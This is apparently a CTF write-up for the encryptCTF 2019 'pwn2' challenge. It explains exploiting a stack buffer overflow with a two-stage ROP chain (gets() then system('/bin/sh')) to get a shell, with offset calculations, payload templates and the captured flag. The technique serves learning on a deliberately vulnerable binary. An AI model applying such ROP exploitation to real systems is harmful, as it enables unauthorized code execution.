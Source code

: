 ```yaml
---
layout: single
title: encryptCTF 2019 Pwn Write-up 3 of 5
excerpt: Third part of my encryptCTF 2019 Pwn write-up series. This challenge tackles stack buffer overflow — creating a ROP chain to call gets() -> main() -> system(), leading to a shell.
date: '2019-04-04T10:13:10.467Z'
classes: wide
categories:
- ctf
- encryptctf
tags:
- pwn
- rop
- bof
---
```


| ![First pwn board wipe of the year. hsb represent! :)](https://cdn-images-1.medium.com/max/800/1*ycEO30rNNBaEmC9qIWf8VQ.png) |
|:--:|
| First pwn board wipe of the year. hsb represent! :) |

### Pwn2 Solution (100 pts.)

> This challenge tackles stack buffer overflow — creating a ROP chain to call gets() -> main() -> system(), leading to a shell.

Challenge description:

> I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?

Let’s examine the binary.

![Commands used: file and gdb checksec](https://cdn-images-1.medium.com/max/800/1*q7sHTSG5xY9FFTJd9AYBfg.png)

Again, the file is a 32-bit ELF executable, and Canary, PIE and RelRo are disabled. Hence, we can try to do a buffer overflow to overwrite the saved return address.

Let’s try to run the binary and enter a long unique string to determine if we can overwrite the saved return address.

Generate pattern using msf-pattern_create.rb

```
root@kali:pwn2# msf-pattern_create -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

Let’s use the string pattern as our input.

![Segfault again :)](https://cdn-images-1.medium.com/max/800/1*o5K1sfoRva7OmtwjUc76qg.png)

It seems we have overwritten the saved return address with 0x35624134. Let’s compute for the offset using msf-pattern_offset.rb.

```
root@kali:pwn2# msf-pattern_offset -q 0x35624134  
[*] Exact match at offset 44
```

We got the offset at 44. Our payload template should look like this:

```
payload = [44 bytes buffer] + [addr of next function]
```

Now, let’s inspect the binary with radare2 and look for useful functions.

![run_command_ls??](https://cdn-images-1.medium.com/max/800/1*6aAIM9OyN2cEsVy8NQKDZw.png)

run_command_ls function is promising, since it uses the function system(). Upon checking the value at 0x8048670 —

```
gef➤  x/xs 0x8048670  
0x8048670: "ls"
```

With the data above, run_command_ls works  like this —

```
run_command_ls() = system('ls')
```

With all the details we got, it seems that the run_command_ls() is useless. We need to think of another way to get the flag / spawn a shell.

Based on the functions listed on radare2, we can utilize system() function by calling system(“/bin/sh”). But there is no /bin/sh stored on the program, hence we still can’t do a simple chain of `system(‘/bin/sh’)`.

Luckily, we have a gets() function. We can use the gets function to store “/bin/sh” on a known writable address, then loop back to main function so that the program will not terminate.

```
Quick note: Template for 32-bit ROP chain  
<buffer> + <function_call> + <return_address after func> + <func_arg>
```

function argument for `gets()` == address where `gets()` will write the user input

```
payload = [44 bytes buffer] + [gets()] + [main()] + [known writable address]
```

We can use the .bss segment to store our “/bin/sh”. Let’s use objdump to get the address of the .bss segment.

![.bss segment is on 0x804a040](https://cdn-images-1.medium.com/max/800/1*kQ7dYWm4ZTFMxQJp3FwCkw.png)

Let’s check the .bss segment using gdb.

![There is something on the given .bss address.](https://cdn-images-1.medium.com/max/800/1*CjFayxjhEHKyFWAt1U1n2w.png)

Since `stdout@GLIBC_2.0` is written on the first part of the `.bss` segment, let’s just use `0x804a050` as the storage of our `/bin/sh`.

Now, our stage 1 payload would look like this —

```
payload = [44 bytes buffer] + [gets()] + [main()] + [0x804a050]
```

The program will loop back to main() once the string `/bin/sh` is written to `0x804a050`.

Now, let’s continue our exploit.

Since we already have a known address of `/bin/sh`, we can set up our stage 2 payload — chain that calls `system(‘/bin/sh’)`,  and send it once the program loops back to the main() function.

Let’s compute again the offset needed to overwrite the saved return address.

Again, we will use msf-pattern_create.rb and msf-pattern_offset.rb

Generate pattern using msf-pattern_create.rb

```
root@kali:pwn2# msf-pattern_create -l 300

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

Run the program with our first stage exploit, then send the pattern.

![Segfault :)](https://cdn-images-1.medium.com/max/800/1*F_UbFlTvy3cyKRN9LVWUsg.png)

The program leads to a segmentation fault, let’s check the core dump generated by the program.

![saved return address overwritten by 0x41326241](https://cdn-images-1.medium.com/max/800/1*3fIS0RBoVPrmPWmOkihSkw.png)

We can see that the saved return address is overwritten by `0x41326241`. Let’s use msf-pattern_offset.rb to get the offset.

```
root@kali:pwn2# msf-pattern_offset -q 0x41326241  
[*] Exact match at offset 36
```

The offset is 36. We can now create our stage 2 payload with all the information.
```
payload = [36 bytes buffer] + [system()] + [4 bytes garbage] + [/bin/sh address]
```

Let’s try to send our stage 2 payload after looping back to main. Here’s the sample run of the exploit.

![We got a shell! :)](https://cdn-images-1.medium.com/max/800/1*Q2tj6HTsUgwaDuFtDxe_-A.png)

The exploit worked! And we got the flag :)

Flag: encryptCTF{N!c3_j0b_jump3R}

-

— ar33zy

[hackstreetboys](https://hackstreetboys.ph/) aka [hsb] is a CTF team from the Philippines.

Please do like our [Facebook Page](https://www.facebook.com/hackstreetboys/) and Follow us on [Twitter](https://twitter.com/_hackstreetboys), [Medium](https://medium.com/hackstreetboys), and [GitHub](https://github.com/hackstreetboysph).
